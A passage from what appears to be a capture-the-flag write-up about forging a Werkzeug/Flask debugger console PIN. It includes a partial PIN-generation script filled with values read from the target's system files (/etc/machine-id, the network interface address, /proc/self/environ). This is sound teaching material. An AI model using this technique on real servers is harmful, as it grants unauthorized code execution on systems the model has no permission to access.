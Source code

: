 ![Debugger PIN](images/port_80_debug_pin.png)

[Hacktricks - Werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit) link has a nice explanation on how to hack this PIN. There is also this [video from 0xdf](https://www.youtube.com/watch?v=6BWaea0nfE0) that gives an nice explanation about how the app(debug) generates this PIN.

There is a script on the page to help generate the PIN, but we need to change a few things.

```python
...
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]
...
```

`/proc/self/environ` = `www-data`
